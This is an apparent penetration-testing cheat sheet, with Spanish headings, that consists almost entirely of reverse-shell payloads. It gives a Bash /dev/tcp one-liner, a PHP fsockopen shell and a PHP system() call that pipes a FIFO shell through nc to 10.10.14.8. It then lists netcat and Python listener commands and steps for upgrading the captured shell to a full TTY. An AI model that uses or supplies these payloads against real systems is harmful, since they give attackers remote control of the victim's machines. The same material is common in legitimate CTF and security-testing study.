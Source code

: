 **Bash**

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

**PHP**

```
$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

**Example**
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
```

### Servidores Web 
**Python3**
```
python3 -m http.server 8080
```
**Netcat**

```
nc -lvnp 8080
```

### Tratamiento TTY 
**TTY**
```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```
```
reset
```
```
xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```
```
stty -a | aplicar en nueva ventana
```
```
stty rows <rows> columns <columns>
```
